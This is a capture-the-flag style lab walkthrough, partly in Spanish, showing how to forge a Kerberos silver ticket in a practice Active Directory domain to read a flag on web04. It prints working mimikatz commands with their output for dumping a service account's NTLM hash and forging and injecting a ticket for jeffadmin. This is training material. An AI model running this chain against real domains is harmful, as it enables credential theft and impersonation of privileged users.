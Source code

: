 # Walk: Attacking Active Directory Authentication - Silver Tickets - VM Group 

## Fecha: 22/04/2025
## Host: Windows | CLIENT75
## IP: {IP}
## Objetivo
Follow the steps outlined in this section to forge a silver ticket for jeffadmin in order to access the web page located at http://web04. Review the source code of the page and find the flag.
## Herramientas
1. mimikatz

## Procedimiento y comandos
> Nos conectamos por RDP al usuario **jeff**
#### Paso 1: Obtenemos los datos necesarios para generar el ticket
1. SID:
```powershell
PS C:\Tools> whoami /user

USER INFORMATION
----------------

User Name SID
========= =============================================
corp\jeff S-1-5-21-1987370270-658905905-1781884369-1105
PS C:\Tools>
```
> Solo nos interesa el SID no el RID | S-1-5-21-1987370270-658905905-1781884369 

2. NTLM hash (en mimikatz)
```powershell
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords
...
Authentication Id : 0 ; 1147751 (00000000:00118367)
Session           : Service from 0
User Name         : iis_service
Domain            : CORP
Logon Server      : DC1
Logon Time        : 9/14/2022 4:52:14 AM
SID               : S-1-5-21-1987370270-658905905-1781884369-1109
        msv :
         [00000003] Primary
         * Username : iis_service
         * Domain   : CORP
         * NTLM     : 4d28cf5252d39971419580a51484ca09
         * SHA1     : ad321732afe417ebbd24d5c098f986c07872f312
         * DPAPI    : 1210259a27882fac52cf7c679ecf4443
...

```
- NTLM: 4d28cf5252d39971419580a51484ca09

#### Paso 2: Ejecutamos mimikatz y generamos el silver ticket

1. Generamos el silver ticket:

- Comando

```powershell
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
```
- Comando con resultado

```powershell
mimikatz # kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
User      : jeffadmin
Domain    : corp.com (CORP)
SID       : S-1-5-21-1987370270-658905905-1781884369
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 4d28cf5252d39971419580a51484ca09 - rc4_hmac_nt
Service   : http
Target    : web04.corp.com
Lifetime  : 9/14/2022 4:37:32 AM ; 9/11/2032 4:37:32 AM ; 9/11/2032 4:37:32 AM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'jeffadmin @ corp.com' successfully submitted for current session

mimikatz # exit
Bye!

```

2. Corroboramos la generación del silver ticket:

```powershell
PS C:\Tools> klist

Current LogonId is 0:0x319fcf

Cached Tickets: (1)

#0>     Client: jeffadmin @ corp.com
        Server: http/web04.corp.com @ corp.com
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40a00000 -> forwardable renewable pre_authent
        Start Time: 4/22/2025 14:38:14 (local)
        End Time:   4/20/2035 14:38:14 (local)
        Renew Time: 4/20/2035 14:38:14 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0
        Kdc Called:
```

#### Paso 3: Obtenemos el flag:

```powershell
PS C:\Tools> (iwr -UseDefaultCredentials http://web04).Content | Select-String -Pattern 'OS\{.*?\}'

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1" />
<title>IIS Windows Server</title>
<style type="text/css">
<!--
body {
        color:#000000;
        background-color:#0072C6;
        margin:0;
}

#container {
        margin-left:auto;
        margin-right:auto;
        text-align:center;
        }

a img {
        border:none;
}

-->
</style>
</head>
<body>
<div id="container">
<a href="http://go.microsoft.com/fwlink/?linkid=66138&amp;clcid=0x409"><img src="iisstart.png" alt="IIS"
width="960" height="600" /></a>
<!-- OS{1cb93c**************************35bd0a} -->
</div>
</body>
</html>
```
